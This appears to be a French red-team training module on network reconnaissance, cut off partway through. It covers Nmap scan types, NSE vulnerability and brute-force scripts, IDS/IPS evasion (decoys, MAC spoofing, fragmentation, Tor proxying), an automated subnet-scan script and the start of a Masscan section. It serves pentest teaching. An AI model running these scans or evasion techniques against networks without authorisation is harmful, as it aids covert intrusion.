


# Module 6 — Reconnaissance & Scanning réseau avancé

> **Durée :** 1h30 (09:30—11:00)
> **Référentiel :** MITRE ATT&CK — T1595 (Active Scanning), T1049 (Network Share Discovery), T1046 (Network Service Discovery), T1590 (Gather Victim Network Information), T1592 (Gather Victim Host Information), T1087 (Account Discovery)
> **Conformité :** NIS2 — Art. 21 (Cartographie des actifs, gestion des risques)
> **Prérequis :** VM Kali Linux, réseau local /24, cibles Docker

---

## Table des matières

1. [Introduction au scanning réseau](#1-introduction-au-scanning-réseau)
2. [Nmap avancé](#2-nmap-avancé)
3. [Masscan — Scan ultra-rapide](#3-masscan--scan-ultra-rapide)
4. [Rustscan — Scan moderne](#4-rustscan--scan-moderne)
5. [Énumération de services](#5-énumération-de-services)
6. [OSINT réseau](#6-osint-réseau)
7. [Énumération Web avancée](#7-énumération-web-avancée)
8. [Script d'automatisation de reconnaissance](#8-script-dautomatisation-de-reconnaissance)
9. [TP Synthèse](#9-tp-synthèse)

---

## 1. Introduction au scanning réseau

### 1.1 Objectifs de la phase de reconnaissance

La phase de reconnaissance est la **première étape** de toute opération Red Team. Elle répond à trois objectifs fondamentaux :

| Objectif | Description | Techniques MITRE associées |
|----------|-------------|---------------------------|
| **Discovery** | Découverte d'hôtes actifs sur le périmètre cible | T1595 (Active Scanning) |
| **Fingerprinting** | Identification des OS, services, versions | T1592 (Gather Victim Host Info) |
| **Énumération** | Collecte d'informations détaillées sur les services | T1046, T1049, T1590, T1087 |

Ces trois phases sont **itératives** : chaque découverte alimente la suivante et affine le périmètre d'attaque.



### 1.2 NIS2 — Cartographie des actifs (Article 21)

La directive **NIS2 (UE 2022/2555)** impose aux entités essentielles et importantes de mettre en œuvre des mesures de gestion des risques. L'article 21 stipule explicitement :

> *"Les États membres veillent à ce que les entités essentielles et importantes prennent des mesures techniques, opérationnelles et organisationnelles appropriées et proportionnées pour gérer les risques pesant sur la sécurité des réseaux et des systèmes d'information."*

**Parmi ces mesures :**
- **Cartographie des actifs** (inventaire matériel et logiciel)
- **Tests d'intrusion réguliers** (au moins annuels)
- **Détection et réponse aux incidents**

**Lien avec la reconnaissance offensive :**
- La cartographie des actifs côté défense correspond au **scan réseau** côté attaque
- Connaître ses assets = savoir ce qu'il faut protéger
- L'attaquant cherche à établir cette même cartographie pour identifier les failles

**Dans le cadre du pentest :**
- Chaque asset découvert doit être documenté
- La heat map ATT&CK finale servira à démontrer les gaps de couverture
- Le rapport de pentest (J4) intégrera ces éléments pour prouver la conformité ou non à la NIS2

### 1.3 MITRE ATT&CK — T1595 (Active Scanning)

La technique **T1595** est la technique racine pour toute la phase de scanning. Elle se décline en sous-techniques :

| ID | Nom | Description |
|----|-----|-------------|
| T1595.001 | Scanning IP Blocks | Scan de plages IP pour trouver des hôtes actifs |
| T1595.002 | Vulnerability Scanning | Scan de vulnérabilités connues |
| T1595.003 | Wordlist Scanning | Brute-force de chemins/dossiers DNS |

**Indicateurs de compromission (IOA) côté défense :**
- Requêtes SYN massives vers plusieurs ports
- Patterns de scan Nmap identifiables (User-Agent, timing)
- Requêtes DNS pour zone transfer
- Connexions vers des ports inhabituels

**Évasion IDS/IPS :**
- Ralentissement du scan (T1, T0)
- Fragmentation des paquets
- Utilisation de decoy (adresses leurres)
- Scan via proxy/circuits anonymisés

---

## 2. Nmap avancé

### 2.1 Installation et configuration

Nmap est préinstallé sur Kali Linux. Pour les autres distributions :

```bash
# Installation sur Debian/Ubuntu/Kali
sudo apt update
sudo apt install -y nmap

# Vérification de l'installation
nmap --version

# Sur macOS (via Homebrew)
brew install nmap

# Compilation depuis les sources (version de développement)
git clone https://github.com/nmap/nmap.git
cd nmap
./configure
make
sudo make install
```

**Vérification des scripts NSE disponibles :**

```bash
# Lister toutes les catégories de scripts
ls -la /usr/share/nmap/scripts/ | wc -l

# Compter les scripts par catégorie
grep -r "categories" /usr/share/nmap/scripts/*.nse | grep -oP '"([^"]+)"' | sort | uniq -c | sort -rn

# Chercher un script par nom
ls /usr/share/nmap/scripts/ | grep -i smb

# Afficher les informations d'un script spécifique
nmap --script-help smb-enum-shares.nse
```

### 2.2 Types de scans

#### TCP SYN Scan (-sS) — Scan furtif (par défaut)

Le SYN scan envoie un paquet SYN, analyse la réponse, puis envoie un RST pour ne pas terminer la connexion.



```bash
# SYN scan basique (root requis)
sudo nmap -sS 192.168.1.1

# SYN scan avec ports spécifiques
sudo nmap -sS -p 22,80,443,3306,3389 192.168.1.1

# SYN scan sur une plage de ports
sudo nmap -sS -p 1-10000 192.168.1.1

# SYN scan sur tous les ports (65 535 ports)
sudo nmap -sS -p- 192.168.1.1
```

**Avantages :** Rapide, moins detectable que Connect scan, ne complète pas le handshake TCP
**Inconvénients :** Nécessite les privilèges root

#### TCP Connect Scan (-sT) — Scan complet

Le Connect scan complète le handshake TCP à trois voies, puis envoie un RST pour fermer.

```bash
# Connect scan (ne nécessite PAS root)
nmap -sT 192.168.1.1

# Connect scan sur ports communs
nmap -sT -p 21,22,23,25,80,110,143,443,993,995 192.168.1.1
```

**Avantages :** Ne nécessite pas root, plus fiable dans certains environnements
**Inconvénients :** Plus lent, plus détectable (logs applicatifs complets)

#### UDP Scan (-sU)

Le scan UDP est plus lent car le protocole UDP n'a pas de mécanisme de connexion.

```bash
# Scan UDP des ports courants
sudo nmap -sU 192.168.1.1

# Scan UDP avec ports spécifiques
sudo nmap -sU -p 53,67,68,123,161,162,500,514 192.168.1.1

# Scan UDP rapide (top 100 ports)
sudo nmap -sU --top-ports 100 192.168.1.1
```

**Comportement :**
- Pas de réponse → port ouvert ou filtré (aucun moyen de savoir)
- ICMP Port Unreachable → port fermé
- Réponse UDP → port ouvert

#### NULL, FIN, Xmas Scans — Scans furtifs

Ces scans envoient des paquets avec des flags TCP inhabituels pour contourner certaines règles de pare-feu.

```bash
# NULL scan : aucun flag TCP activé
sudo nmap -sN 192.168.1.1

# FIN scan : seul le flag FIN est activé
sudo nmap -sF 192.168.1.1

# Xmas scan : les flags FIN, PSH et URG sont activés
sudo nmap -sX 192.168.1.1
```

**Comportement attendu (RFC 793) :**
- Port fermé → RST reçu (car le paquet est invalide)
- Port ouvert → pas de réponse (car le paquet est invalide, l'hôte ignore)

**Limitation :** Ne fonctionne pas contre Windows (toujours RST, donc tous les ports semblent fermés)

### 2.3 Options de timing (-T0 à -T5)

Nmap propose 6 profils de timing qui contrôlent la vitesse et l'agressivité du scan.

| Profil | Nom | Usage | Description |
|--------|-----|-------|-------------|
| -T0 | Paranoid | Évasion IDS | Très lent, un paquet à la fois, attente de 5 min entre les envois |
| -T1 | Sneaky | Évasion IDS | Lent, attente de 15 secondes entre les envois |
| -T2 | Polite | Usage général | Lent mais raisonnable, attente de 0.4s |
| -T3 | Normal | Par défaut | Équilibre vitesse/discrétion |
| -T4 | Aggressive | Réseau rapide | Suppose un bon réseau, accélère les timeouts |
| -T5 | Insane | Très rapide | Timeout très court, peut manquer des ports |

```bash
# Scan furtif contre un IDS
sudo nmap -sS -T0 192.168.1.1

# Scan équilibré (par défaut)
sudo nmap -sS -T3 192.168.1.0/24

# Scan agressif sur réseau local
sudo nmap -sS -T4 -p- 192.168.1.1

# Scan très agressif (peut perdre des résultats)
sudo nmap -sS -T5 10.0.0.1
```

**Détail des paramètres modifiés par -T :**

```bash
# Examiner les valeurs de timing par défaut
nmap -T4 --verbose 192.168.1.1 2>&1 | grep -i timing

# Paramètres concrets :
# -T0 : min-rtt-timeout 100ms, max-rtt-timeout 300ms, initial-rtt-timeout 300ms
#        max-scan-delay 1000ms, max-tries 5
# -T4 : min-rtt-timeout 100ms, max-rtt-timeout 1250ms, initial-rtt-timeout 500ms
#        max-scan-delay 10ms, max-tries 2
# -T5 : min-rtt-timeout 50ms, max-rtt-timeout 300ms, initial-rtt-timeout 250ms
#        max-scan-delay 5ms, max-tries 1
```

### 2.4 Fragmentation (-f)

La fragmentation divise les paquets en fragments plus petits pour contourner les pare-feu qui inspectent les paquets complets.

```bash
# Fragmentation par défaut (8 octets par fragment)
sudo nmap -sS -f 192.168.1.1

# Fragmentation avec taille personnalisée (16 octets)
sudo nmap -sS --mtu 16 192.168.1.1

# Double fragmentation (encore plus petits fragments)
sudo nmap -sS -ff 192.168.1.1
```

**Mécanisme :**
- Un paquet TCP SYN normal fait 40-60 octets (en-tête IP 20 + TCP 20-40)
- Avec `-f`, il est divisé en fragments IP de 8 octets
- Le pare-feu doit réassembler le paquet pour inspecter la couche TCP
- Certains pare-feu ne réassemblent pas et laissent passer

### 2.5 OS Detection (-O) et Version Detection (-sV)

#### OS Detection (-O)

```bash
# Détection du système d'exploitation
sudo nmap -O 192.168.1.1

# OS detection avec verbosité
sudo nmap -O -v 192.168.1.1

# OS detection agressive (plus de probes)
sudo nmap -O --osscan-guess 192.168.1.1
```

**Comment ça marche (TCP/IP fingerprinting) :**
1. Nmap envoie jusqu'à 16 probes TCP/UDP/ICMP
2. Il analyse les réponses selon :
   - Initial Sequence Number (ISN) sampling
   - Options TCP supportées (window scale, timestamp, etc.)
   - Taille initiale de la fenêtre TCP
   - Valeur du TTL (Time To Live)
   - Comportement DF (Don't Fragment)
3. Il compare à une base de ~3000 fingerprints

```bash
# Afficher le degré de confiance avec --osscan-guess
sudo nmap -O --osscan-guess 192.168.1.1

# OS detection sur tout un sous-réseau
sudo nmap -O 192.168.1.0/24 --exclude 192.168.1.1
```

**Exemple de sortie :**

```
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 1 hop
```

#### Version Detection (-sV)

```bash
# Détection de versions des services
nmap -sV 192.168.1.1

# Version detection avec intensité (0-9, défaut 7)
nmap -sV --version-intensity 9 192.168.1.1

# Version detection sur tous les ports
nmap -sV -p- 192.168.1.1

# Version detection avec banner grabbing
nmap -sV --version-all 192.168.1.1

# Version detection légère (probes limitées)
nmap -sV --version-light 192.168.1.1
```

**Intensité de version detection :**

| Intensité | Description |
|-----------|-------------|
| 0 | Uniquement les sondes les plus probables |
| 2-3 | Équilibre (défaut dans --version-light) |
| 7 | Par défaut, bonne couverture |
| 9 | Exhaustif, long mais précis |

```bash
# Combinaison OS + version
sudo nmap -sV -O 192.168.1.1

# Combinaison avec détection de script
sudo nmap -sV -O -sC 192.168.1.1

# Combinaison complète : SYN scan + OS + version + scripts par défaut + tracing
sudo nmap -sS -sV -O -sC --traceroute 192.168.1.1
```

### 2.6 NSE Scripts (Nmap Scripting Engine)

Les scripts NSE permettent d'automatiser des tâches de détection et d'exploitation.

#### Catégories de scripts

| Catégorie | Description | Exemple |
|-----------|-------------|---------|
| auth | Détection d'authentification | http-brute, ftp-anon |
| broadcast | Découverte par broadcast | broadcast-ping, dhcp-discover |
| brute | Brute-force d'authentification | http-brute, smb-brute |
| default | Scripts par défaut (-sC) | http-title, ssh-hostkey |
| discovery | Découverte de services | dns-zone-transfer, smb-enum-shares |
| dos | Test de déni de service | http-slowloris |
| exploit | Exploitation de vulnérabilités | smb-vuln-ms17-010 |
| external | Requêtes externes | whois-ip, http-geolocate |
| fuzzer | Fuzzing | http-fuzzer, dns-fuzz |
| intrusive | Scripts intrusifs | smb-brute, http-sql-injection |
| malware | Détection de malwares | http-malware-host |
| safe | Scripts non intrusifs | ssh-hostkey, http-title |
| version | Détection de versions | Version-specific probes |
| vuln | Détection de vulnérabilités | smb-vuln-*, http-vuln-* |

#### Utilisation des scripts

```bash
# Scripts par défaut (-sC)
nmap -sC 192.168.1.1

# Script d'une catégorie spécifique
nmap --script vuln 192.168.1.1

# Scripts de détection SMB
nmap --script smb-enum-shares,smb-os-discovery,smb-security-mode 192.168.1.1

# Script avec arguments
nmap --script http-brute --script-args "http-brute.path=/admin,userdb=users.txt,passdb=pass.txt" 192.168.1.1

# Scripts multiples + version detection
nmap -sV --script "vuln and safe" 192.168.1.1

# Scripts avec timeout
nmap --script http-sql-injection --script-timeout 30s 192.168.1.1
```

#### Scripts essentiels par service

**Pour SMB (port 445, 139) :**

```bash
# Énumération complète SMB
nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-os-discovery,smb-security-mode,smb-server-stats,smb-system-info 192.168.1.1

# Détection de vulnérabilités SMB
nmap -p 445 --script smb-vuln-* 192.168.1.1
```

**Pour HTTP/HTTPS (port 80, 443) :**

```bash
# Découverte HTTP
nmap -p 80,443 --script http-enum,http-headers,http-title,http-server-header,http-methods 192.168.1.1

# Détection de vulnérabilités web
nmap -p 80 --script http-vuln-* 192.168.1.1

# Découverte de technologies
nmap -p 80 --script http-technologies-detect 192.168.1.1
```

**Pour DNS (port 53) :**

```bash
# Zone transfer et énumération DNS
nmap -p 53 --script dns-zone-transfer,dns-brute,dns-cache-snoop,dns-nsec-enum,dns-nsid 192.168.1.1
```

**Pour MySQL/MariaDB (port 3306) :**

```bash
# Énumération MySQL
nmap -p 3306 --script mysql-enum,mysql-info,mysql-users,mysql-variables,mysql-empty-password,mysql-databases 192.168.1.1
```

**Pour SSH (port 22) :**

```bash
# Fingerprinting SSH
nmap -p 22 --script ssh-hostkey,ssh-auth-methods,ssh2-enum-algos 192.168.1.1
```

### 2.7 Évasion IDS/IPS

#### Decoy (-D) — Adresses leurres

```bash
# Scan avec 4 adresses leurres
sudo nmap -D 192.168.1.10,192.168.1.20,192.168.1.30,ME 192.168.1.1

# Scan avec adresses leurres aléatoires
sudo nmap -D RND:5 192.168.1.1

# Decoy avec des adresses d'un sous-réseau spécifique
sudo nmap -D 192.168.1.10-50 192.168.1.1
```

**Fonctionnement :**
- Chaque requête SYN est envoyée depuis les adresses leurres (spoofing d'adresse source)
- La cible reçoit des SYN de plusieurs sources simultanément
- L'administrateur ne sait pas quelle adresse est la vraie
- Attention : l'adresse ME désigne la vraie adresse de l'attaquant

#### Spoof (Spoofing d'adresse MAC)

```bash
# Spoof d'adresse MAC
sudo nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1

# Spoof MAC avec un OUI connu (Apple, Cisco, etc.)
sudo nmap --spoof-mac Apple 192.168.1.1
sudo nmap --spoof-mac Cisco 192.168.1.1
sudo nmap --spoof-mac Dell 192.168.1.1

# Spoof MAC aléatoire
sudo nmap --spoof-mac 0 192.168.1.1
```

#### MTU Custom et Data Length

```bash
# Taille de fragment personnalisée
sudo nmap --mtu 24 192.168.1.1

# Longueur de données personnalisée (défaut 0)
sudo nmap --data-length 50 192.168.1.1

# Ajout de données aléatoires pour obscurcir le scan
sudo nmap --data-length 200 192.168.1.1
```

#### Source Port Manipulation

```bash
# Spécifier un port source spécifique
sudo nmap -sS --source-port 53 192.168.1.1
sudo nmap -sS -g 445 192.168.1.1  # -g est synonyme de --source-port

# Pour imager du trafic DNS
sudo nmap -sS --source-port 53 -p 80,443 192.168.1.1
```

**Pourquoi ?** Certains pare-feu autorisent le trafic entrant depuis des ports privilégiés (< 1024). En utilisant le port 53 (DNS) ou 80 (HTTP), on peut contourner ces règles.

#### Scan via Proxy (Proxychains)

```bash
# Configuration de proxychains
cat /etc/proxychains4.conf
# → Vérifier : socks4 127.0.0.1 9050 (Tor) ou http 127.0.0.1 8080 (Burp)

# Scan via Tor (anonymisation complète)
sudo proxychains4 nmap -sT -Pn 192.168.1.1

# Scan via SOCKS5
sudo proxychains4 nmap -sT -Pn -p 80,443 10.0.0.1

# Scan via HTTP proxy (Burp Suite)
# Configurer /etc/proxychains4.conf :
# http 127.0.0.1 8080
sudo proxychains4 nmap -sT -Pn 10.0.0.1
```

**Limites :**
- Les scans SYN (-sS) ne fonctionnent pas via proxy (nécessitent un raw socket)
- Utiliser -sT (Connect scan) avec -Pn (skip host discovery)
- Beaucoup plus lent

### 2.8 Sortie et Parsing

#### Formats de sortie

```bash
# Tous les formats en une fois
sudo nmap -oA scan_result 192.168.1.1

# Format normal (lisible)
sudo nmap -oN scan_normal.txt 192.168.1.1

# Format XML (pour parsing)
sudo nmap -oX scan_xml.xml 192.168.1.1

# Format Grepable (pour grep/awk)
sudo nmap -oG scan_grepable.txt 192.168.1.1
```

#### Parsing XML avec Python

```python
#!/usr/bin/env python3
\"\"\"
parse-nmap-xml.py — Parse un fichier XML de Nmap pour en extraire un rapport structuré.
Usage : python3 parse-nmap-xml.py scan_xml.xml
\"\"\"
import sys
import xml.etree.ElementTree as ET

def parse_nmap_xml(xml_file):
    tree = ET.parse(xml_file)
    root = tree.getroot()

    print(f"{'='*60}")
    print(f"Rapport Nmap parsé — {xml_file}")
    print(f"Date : {root.get('start')}")
    print(f"{'='*60}\\n")

    for host in root.findall('host'):
        status = host.find('status')
        if status.get('state') != 'up':
            continue

        addr = host.find('address')
        ip = addr.get('addr') if addr is not None else 'inconnue'
        print(f"[+] Hôte : {ip}")

        os = host.find('os')
        if os is not None:
            for osmatch in os.findall('osmatch'):
                print(f"    OS : {osmatch.get('name')} "
                      f"(confiance: {osmatch.get('accuracy')}%)")

        ports = host.find('ports')
        if ports is not None:
            for port in ports.findall('port'):
                port_id = port.get('portid')
                protocol = port.get('protocol')
                state = port.find('state').get('state')
                service = port.find('service')

                if state == 'open':
                    svc_name = service.get('name') if service is not None else '?'
                    svc_product = service.get('product') if service is not None else ''
                    svc_version = service.get('version') if service is not None else ''
                    print(f"    Port : {port_id}/{protocol} — {svc_name} "
                          f"{svc_product} {svc_version}")
        print()

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("Usage : python3 parse-nmap-xml.py <fichier.xml>")
        sys.exit(1)
    parse_nmap_xml(sys.argv[1])
```

#### Nmap Bootstrap XSL — Rapport HTML

```bash
# Télécharger la feuille de style XSL
wget https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/main/nmap-bootstrap.xsl

# Convertir le XML en HTML avec la feuille de style
xsltproc -o scan_result.html nmap-bootstrap.xsl scan_xml.xml

# Alternative : spécifier le XSL directement dans le XML
# Modifier la deuxième ligne de scan_xml.xml pour ajouter :
# <?xml-stylesheet href="nmap-bootstrap.xsl" type="text/xsl"?>
```

### 2.9 Scan ARP (découverte locale)

```bash
# Scan ARP sur le réseau local (plus rapide que ICMP)
sudo nmap -PR -sn 192.168.1.0/24

# Scan ARP + liste des hôtes
sudo nmap -PR -sL 192.168.1.0/24
```

**Pourquoi le scan ARP est plus rapide ?**
- N'utilise pas la couche IP (pas de routage)
- Fonctionne uniquement sur le segment local
- Détection quasi instantanée

### 2.10 TP Guidé — Scan complet d'un sous-réseau /24

#### Objectif
Scanner un sous-réseau complet (192.168.1.0/24) pour découvrir tous les hôtes actifs, leurs OS, services ouverts et vulnérabilités potentielles.

#### Étape 1 : Découverte d'hôtes actifs (Ping Sweep)

```bash
# Étape 1a : Ping sweep ICMP
# Découvre les hôtes qui répondent au ping
echo "=== ÉTAPE 1 : PING SWEEP ==="
sudo nmap -sn 192.168.1.0/24 -oA rapport/01-ping-sweep

# Étape 1b : Ping sweep ARP (si on est sur le même segment)
# Plus rapide, utilise la couche 2 au lieu de la couche 3
sudo nmap -PR -sn 192.168.1.0/24 -oA rapport/01-arp-sweep

# Étape 1c : Ping sweep avec TCP SYN sur port 80 et 443
# Utile si ICMP est bloqué mais que le port 80 répond
sudo nmap -PS80,443 -sn 192.168.1.0/24 -oA rapport/01-tcp-ping
```

**Analyse :**
- `-sn` : skip port scan, juste host discovery
- `-PR` : utilise ARP (plus efficace en local)
- `-PS80,443` : utilise TCP SYN sur les ports spécifiés

#### Étape 2 : Scan de ports sur chaque hôte

```bash
# Étape 2a : Scan des 1000 ports les plus courants (rapide)
# Sur tous les hôtes découverts à l'étape 1
echo "=== ÉTAPE 2a : SCAN DES PORTS (TOP 1000) ==="

# Récupérer la liste des hôtes actifs
grep "Nmap scan report for" rapport/01-ping-sweep.nmap | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+' > rapport/hotes_actifs.txt

# Scanner chaque hôte
while read ip; do
    echo "Scan de $ip..."
    sudo nmap -sS -sV -T4 --top-ports 1000 --min-rate 1000 \\
        -oA "rapport/02-ports-$ip" "$ip"
done < rapport/hotes_actifs.txt
```

**Explications des options :**
- `--top-ports 1000` : 1000 ports les plus fréquents
- `--min-rate 1000` : minimum 1000 paquets par seconde (accélère)
- `-sV` : détection de versions sur les ports ouverts

#### Étape 3 : Détection d'OS

```bash
# Étape 3 : OS Detection sur chaque hôte
echo "=== ÉTAPE 3 : OS DETECTION ==="
while read ip; do
    echo "Détection OS pour $ip..."
    sudo nmap -O --osscan-guess -oA "rapport/03-os-$ip" "$ip"
done < rapport/hotes_actifs.txt
```

#### Étape 4 : Scripts NSE (vulnérabilités)

```bash
# Étape 4a : Scripts de vulnérabilités sur chaque hôte
echo "=== ÉTAPE 4 : SCRIPTS NSE ==="
while read ip; do
    echo "Scan vulnérabilités pour $ip..."
    sudo nmap -sS -sV --script "vuln and safe" \\
        --script-timeout 60s -oA "rapport/04-vuln-$ip" "$ip"
    sudo nmap -sS -sV --script "discovery,version" \\
        -oA "rapport/04-discovery-$ip" "$ip"
done < rapport/hotes_actifs.txt
```

#### Étape 5 : Scan spécifique par service

```bash
# Étape 5a : Scan SMB
echo "=== ÉTAPE 5a : SCAN SMB ==="
while read ip; do
    sudo nmap -p 445 --script smb-enum-shares,smb-os-discovery,smb-security-mode \\
        -oA "rapport/05-smb-$ip" "$ip"
done < rapport/hotes_actifs.txt

# Étape 5b : Scan HTTP
echo "=== ÉTAPE 5b : SCAN HTTP ==="
while read ip; do
    sudo nmap -p 80,443 --script http-enum,http-headers,http-title,http-server-header \\
        -oA "rapport/05-http-$ip" "$ip"
done < rapport/hotes_actifs.txt

# Étape 5c : Scan MySQL
echo "=== ÉTAPE 5c : SCAN MYSQL ==="
while read ip; do
    sudo nmap -p 3306 --script mysql-enum,mysql-info,mysql-empty-password \\
        -oA "rapport/05-mysql-$ip" "$ip"
done < rapport/hotes_actifs.txt
```

#### Étape 6 : Génération du rapport consolidé

```bash
# Étape 6 : Génération du rapport final
echo "=== ÉTAPE 6 : RAPPORT ==="

# Convertir XML en HTML avec bootstrap-xsl
wget -q https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/main/nmap-bootstrap.xsl \\
    -O rapport/nmap-bootstrap.xsl

# Copier les fichiers XML et les convertir
for xml in rapport/02-ports-*.xml; do
    base=$(basename "$xml" .xml)
    xsltproc -o "rapport/${base}.html" rapport/nmap-bootstrap.xsl "$xml"
    echo "  ✓ Rapport HTML généré : rapport/${base}.html"
done

# Générer un résumé texte
echo "=== RÉSUMÉ ===" > rapport/resume.txt
echo "Date : $(date)" >> rapport/resume.txt
echo "" >> rapport/resume.txt

for ip in $(cat rapport/hotes_actifs.txt); do
    echo "--- Hôte : $ip ---" >> rapport/resume.txt
    grep -A 100 "Nmap scan report for $ip" "rapport/02-ports-$ip.nmap" | \\
        grep -E "^[0-9]+/tcp|^[0-9]+/udp|OS details|Aggressive OS guesses" >> rapport/resume.txt
    echo "" >> rapport/resume.txt
done

echo "Rapport consolidé : rapport/resume.txt"
```

#### Script complet de scan automatisé

```bash
#!/bin/bash
# scan-complet-reseau.sh — Scan automatisé complet d'un sous-réseau
# Usage : sudo ./scan-complet-reseau.sh <sous-reseau>
# Exemple : sudo ./scan-complet-reseau.sh 192.168.1.0/24

set -e

if [ "$EUID" -ne 0 ]; then
    echo "[!] Ce script doit être exécuté en root."
    exit 1
fi

if [ -z "$1" ]; then
    echo "Usage : $0 <sous-reseau>"
    echo "Exemple : $0 192.168.1.0/24"
    exit 1
fi

SUBNET="$1"
RAPPORT_DIR="rapport-nmap-$(date +%Y%m%d_%H%M%S)"
HOSTS_FILE="${RAPPORT_DIR}/hotes_actifs.txt"

mkdir -p "$RAPPORT_DIR"

echo "=========================================="
echo " Scan complet du sous-réseau : $SUBNET"
echo " Rapport dans : $RAPPORT_DIR"
echo "=========================================="

echo ""
echo "[1/5] Découverte d'hôtes actifs..."
sudo nmap -sn -T4 "$SUBNET" -oA "${RAPPORT_DIR}/01-ping-sweep" | tee -a "${RAPPORT_DIR}/scan.log"

grep "Nmap scan report for" "${RAPPORT_DIR}/01-ping-sweep.nmap" | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+' > "$HOSTS_FILE"

NB_HOSTS=$(wc -l < "$HOSTS_FILE")
echo "[+] $NB_HOSTS hôtes actifs découverts."

if [ "$NB_HOSTS" -eq 0 ]; then
    echo "[!] Aucun hôte actif trouvé. Arrêt."
    exit 0
fi

echo ""
echo "[2/5] Scan rapide des 1000 ports courants..."
while read -r ip; do
    echo "  → Scan de $ip..."
    sudo nmap -sS -sV -T4 --top-ports 1000 \\
        -oA "${RAPPORT_DIR}/02-ports-top1000-$ip" \\
        "$ip" >> "${RAPPORT_DIR}/scan.log" 2>&1
done < "$HOSTS_FILE"

if [ "$NB_HOSTS" -le 5 ]; then
    echo ""
    echo "[3/5] Scan complet des ports (peut être long)..."
    while read -r ip; do
        echo "  → Scan complet de $ip..."
        sudo nmap -sS -sV -T4 -p- --min-rate 1000 \\
            -oA "${RAPPORT_DIR}/03-ports-tous-$ip" \\
            "$ip" >> "${RAPPORT_DIR}/scan.log" 2>&1
    done < "$HOSTS_FILE"
else
    echo "[3/5] Skippé (trop d'hôtes)."
fi

echo ""
echo "[4/5] Détection d'OS..."
while read -r ip; do
    echo "  → OS detection pour $ip..."
    sudo nmap -O --osscan-guess \\
        -oA "${RAPPORT_DIR}/04-os-$ip" \\
        "$ip" >> "${RAPPORT_DIR}/scan.log" 2>&1
done < "$HOSTS_FILE"

echo ""
echo "[5/5] Scripts NSE..."
while read -r ip; do
    echo "  → NSE pour $ip..."
    sudo nmap -sV --script "vuln and safe" --script-timeout 60s \\
        -oA "${RAPPORT_DIR}/05-nse-$ip" \\
        "$ip" >> "${RAPPORT_DIR}/scan.log" 2>&1
done < "$HOSTS_FILE"

echo ""
echo "=========================================="
echo " Scan terminé !"
echo " Résultats : $RAPPORT_DIR/"
echo " Hôtes découverts : $NB_HOSTS"
echo "=========================================="
```

#### Exécution du TP guidé complet

```bash
# Rendre le script exécutable
chmod +x scan-complet-reseau.sh

# Exécuter le scan complet
sudo ./scan-complet-reseau.sh 192.168.1.0/24
```


## 3. Masscan — Scan ultra-rapide

### 3.1 Installation

```bash
# Installation sur Kali/Debian
sudo apt update
sudo apt install -y masscan

# Compilation depuis les sources
git clone https://github.com/robertdavidgraham/masscan.git
cd masscan
make -j$(nproc)
sudo make install

# Vérification
masscan --version
masscan --echo | head -20
```

### 3.2 Comparaison Masscan vs Nmap

| Critère | Masscan | Nmap |
|---------|---------|------|
| **Vitesse** | Jusqu'à 25 000 000 paquets/s | ~1000 paquets/s (T4) |
| **Précision** | Moins précise (pas de handshake complet) | Très précise |
| **OS detection** | Non | Oui (-O) |
| **Version detection** | Non | Oui (-sV) |
| **Scripting** | Non | Oui (NSE ~600 scripts) |
| **Usage typique** | Scan de masse rapide | Scan détaillé et ciblé |
| **Protocole** | TCP/UDP seulement | TCP/UDP/SCTP/ICMP/ARP |
| **Sorties** | XML, JSON, Grepable | XML, HTML, Grepable, Nmap |
| **Évasion** | Basique (fragmentation limitée) | Avancée (decoy, spoof, proxy) |

**Stratégie recommandée :**
1. **Masscan** → découverte rapide des ports ouverts sur une large plage
2. **Nmap** → approfondissement (OS, version, scripts) sur les ports découverts

### 3.3 Syntaxe Masscan

```bash
# Scan basique : un port sur une IP
sudo masscan 192.168.1.1 -p80

# Scan de plusieurs ports
sudo masscan 192.168.1.1 -p80,443,22

# Scan d'une plage de ports
sudo masscan 192.168.1.1 -p1-65535

# Scan d'un sous-réseau complet
sudo masscan 192.168.1.0/24 -p80,443,22,21

# Scan avec un rate spécifique (paquets par seconde)
sudo masscan 192.168.1.0/24 -p80,443 --rate=1000

